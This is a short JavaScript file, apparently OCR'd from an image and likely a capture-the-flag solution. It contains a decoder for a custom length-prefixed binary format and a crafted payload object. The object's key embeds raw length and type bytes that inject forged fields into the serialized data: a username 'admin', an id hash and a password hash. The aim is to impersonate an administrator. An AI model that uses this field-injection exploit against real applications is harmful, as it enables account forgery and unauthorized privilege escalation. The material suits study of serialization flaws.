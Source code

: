 ```javascript
}

function decode(b) {
    let o = {}
    let i = 0
    b = new Buffer(b, 'base64')

    while (i < b.length) {
        n = b.readUInt32LE(i), i += 4
        k = b.toString('utf8', i, i+n), i += n
        t = b.readUInt8(i), i += 1

        console.log(k, n);

        switch(t) {
        case 1:
            n = b.readUInt32LE(i), i += 4
            v = b.toString('utf8', i, i+n), i += n
            o[k] = v
            break
        case 2:
            n = b.readUInt32LE(i), i += 4
            o[k] = n
            break
        default:
            break
        }
    }
    return o
}

// encode non printable
var encodeNP = function(s){
    var hex, c;
    var result = '';
    for (var i = 0; i < s.length; i++) {
        c = s[i];
        if (c >= 32 && c <= 126) {
            result += String.fromCharCode(c);
        } else {
            hex = c.toString(16);
            result += '\\u' + ('000'+hex).slice(-4);
        }
    }

    return result;
}

const payload = {
    'name': 'nytr0gen31337',
    'age': 20,
    'desc': 13,
    "zzzz\u00bd\u00bd\u00bd\u00bd\u00bd\u0001\u0005\u0000\u0000\u0000": "\u0004\u0000\u0000\u0000name\u0001\u0005\u0000\u0000\u0000admin" +
        "\u0002\u0000\u0000\u0000id\u0001@\u0000\u0000\u00008c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918" +
        "\u0008\u0000\u0000\u0000password\u0001@\u0000\u0000\u000065e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5" +
        "\u0002\u0000\u0000\u0000pl\u0001\u00ff\u00ff\u0000\u0000",
    'password': '65e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5',
    'id': 'deadbeefb5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918'
};
console.log(payload);
```